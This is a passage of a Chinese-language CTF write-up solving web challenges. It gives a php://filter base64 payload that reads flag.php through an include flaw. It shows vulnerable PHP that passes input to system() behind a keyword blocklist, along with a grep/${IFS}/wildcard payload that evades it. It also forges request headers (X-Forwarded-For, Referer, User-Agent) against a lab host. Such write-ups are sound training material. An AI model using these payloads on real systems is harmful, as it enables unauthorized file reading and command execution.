     highlight_file(__FILE__);
} 
```

根据题面和include有关</br>
搜索php inlcude漏洞</br>
可以知道:</br>
<blockquote>
php://filter用于读取源码</br>
php://input用于执行php代码</br>
使用 "php://filter"伪协议" 来进行包含。当它与包含函数结合时，php://filter流会被当作php文件执行。所以我们一般对其进行编码，阻止其不执行。从而导致任意文件读取。
</blockquote>
<a href = "https://blog.csdn.net/qq_19980431/article/details/83018232https://www.cnblogs.com/cmredkulaa/p/14008645.html">[参考博客]<a/>

```
Payload:?file=php://filter/read=convert.base64-encode/
resource=flag.php
```
输出内容后再用base64解密得到flag
### babeRCE
```
<?php

$rce = $_GET['rce'];
if (isset($rce)) {
    if (!preg_match("/cat|more|less|head|tac|tail|nl|od|vi|vim|sort|flag| |\;|[0-9]|\*|\`|\%|\>|\<|\'|\"/i", $rce)) {
        system($rce);
    }else {
        echo "hhhhhhacker!!!"."\n";
    }
} else {
    highlight_file(__FILE__);
}
```
根据题面 搜索ctf rce</br>
大部分关键字都过滤了</br>
仔细对比后发现还有grep可以用
结合通配符,空格绕过</br>
<a href = "https://blog.csdn.net/qq_19980431/article/details/83018232https://www.cnblogs.com/cmredkulaa/p/14008645.htmlhttps://blog.csdn.net/qq_44657899/article/details/107676580">[参考博客]<a/>
```
Payload:?rce=grep${IFS}f${IFS}fla?.php
```
### Do you know HTTP?
此题考察HTTP请求中的header

用'HS'来请求试试？
```
将请求方法改为HS
```
只有本地ip地址才可以哦！
```
X-Forwarded-For: 127.0.0.1
```
我希望你是从'www.ltyyds.com'过来的！
```
Referer: www.ltyyds.com
```
'LT'才是本题官方浏览器哦！
```
User-Agent: LT
```
```
HS / HTTP/1.1
Host: 47.93.215.154:5002